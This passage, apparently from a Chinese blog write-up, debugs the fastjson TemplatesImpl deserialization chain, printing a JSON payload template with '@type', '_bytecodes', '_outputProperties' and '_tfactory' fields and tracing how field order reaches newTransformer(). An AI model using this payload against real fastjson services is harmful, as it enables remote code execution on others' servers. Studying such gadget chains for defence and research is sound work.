 ```java
        JSON.parse(json, Feature.SupportNonPublicField);
    }
}
```
当时我也没有想通，为什么要有这些参数，通过反射看了构造函数，以及找了很多很多文章学习，也没有发现什么共同点，直到最后靠自己调试！卧槽，真他妈疯了，又搞了一下午，不过总得来说，自己总结学习到的东西还是很有帮助的。

- 首先我们知道，fastjson会根据json字符串遍历key，然后再调用getter/setter赋值操作
- 然后，我们利用的方式是getOnly，只有getter方法，没有setter方法
- 最后，在invoke之后，TemplatesImpl具体又执行了什么呢？



我在这里做一个测试，在invoke之后强制进入找找问题所在，我把json数据改成如下所示，将`_tfactory`，`_outputProperties`换一个位置
```java
String json = "{\"@type\":\"" + className + "\"," +
                "\"_bytecodes\":[\"" + byteCode + "\"]," +
                "'_name':''," +
                "\"_outputProperties\":{},"+
                "'_tfactory':{}}";
```
然后再进行调试，我们着重看outputProperties触发处，在invoke处进入

![image.png](./fastJson反序列化原理及利用.assets/2023_05_19_16_10_36_TAFbPONK.png)

然后我们可以看到，这里要进行了newTransformer()，在这里请注意我们要反序列化的字符串的顺序，此时`_bytecodes`，`_name`，已经完成赋值，但是，`_tfactor`，`_outputProperties`还未赋值，此时我们进入`newTransforemer()`方法
